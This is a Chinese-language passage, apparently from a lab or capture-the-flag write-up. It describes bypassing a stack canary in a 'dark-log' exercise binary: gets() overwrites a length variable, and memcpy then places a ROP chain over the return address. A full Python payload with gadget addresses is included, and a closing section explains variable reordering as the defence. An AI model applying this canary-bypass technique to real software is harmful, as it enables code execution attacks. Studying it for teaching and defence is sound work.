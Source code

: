 \documentclass[11pt,a4paper]{article}
\begin{document}
函数在 \texttt{gets} 之后执行 \texttt{memcpy(logMsg + len, expression, 128)}，其中 \texttt{len} 初始为 0，但它位于 \texttt{expression} 高地址方向、\texttt{canary} 之前，可被 \texttt{gets} 溢出改写而不触碰 canary。

\subsection{两阶段绕过}

\textbf{第一阶段：}输入数据越过 \texttt{expression}、\texttt{logMsg}，在偏移 \texttt{0x100} 处把 \texttt{len} 改写为 \texttt{0xa0}，随即用换行结束。canary（偏移 \texttt{0x118}）完全未被写入，保持有效。

\textbf{第二阶段：}程序执行 \texttt{memcpy}，目标地址为 \texttt{logMsg + 0xa0 = (rbp-0xa0)+0xa0 = rbp}，即保存的 \texttt{rbp} 槽位。于是 \texttt{expression} 的前 128 字节被复制到 \texttt{canary} \textbf{之上}的区域，直接覆盖保存的 \texttt{rbp} 与返回地址，而 canary 全程不变，校验通过。

\texttt{dark-log} 中同样存在 csu 隐藏 gadget：\texttt{0x4018a3} 为 \texttt{pop rdi; ret}，\texttt{0x4018a4} 为 \texttt{ret}，\texttt{grade\_eval} 位于 \texttt{0x401677}。在 \texttt{expression} 开头布置好 ROP 链（经 \texttt{memcpy} 落到 \texttt{rbp} 处）：

\begin{lstlisting}[language=Python]
buf  = b"A"*8
buf += struct.pack("<Q", 0x4018A4)  # ret 对齐
buf += struct.pack("<Q", 0x4018A3)  # pop rdi ; ret
buf += struct.pack("<Q", 4)         # rdi = 4
buf += struct.pack("<Q", 0x401677)  # grade_eval
buf += b"C"*(128-len(buf))
payload  = buf + b"D"*128
payload += struct.pack("<I", 0xA0)  # 覆盖 len
payload += b"\n"
\end{lstlisting}

\texttt{input} 返回后沿该链调用 \texttt{grade\_eval(4)}，入口 \texttt{rsp \% 16 == 8}，成功输出 \texttt{Hope A will be your grade!}，且 canary 校验未触发。

\subsection{如何重排局部变量使攻击失效}

本次利用成立的关键，是\textbf{控制变量 \texttt{len} 位于可溢出缓冲区 \texttt{expression} 的高地址方向，且处于 canary 之前}，使攻击者能在不破坏 canary 的情况下篡改 \texttt{len}，再借 \texttt{memcpy} 实现任意方向写。

要使其失效，应调整栈上变量的排布，让\textbf{两个 char 数组（\texttt{expression}、\texttt{logMsg}）占据最靠近 canary 的高地址位置，而把 \texttt{len} 等控制变量放到数组的低地址方向}。这样 \texttt{gets} 从 \texttt{expression} 向高地址溢出时，首先遇到的是另一个数组，再往上就是 canary——攻击者无法在不覆盖 canary 的前提下触及 \texttt{len}，也就不能控制 \texttt{memcpy} 的目标偏移；而 \texttt{len} 处于低地址方向，栈只向低地址生长、\texttt{gets} 只向高地址写，溢出数据根本无法到达它。现代编译器的 Stack Protector 正是采用类似策略，对栈上局部变量重新排布，使缓冲区尽量靠近 canary，避免在缓冲区与 canary 之间留下可被利用的控制变量。
\end{document}
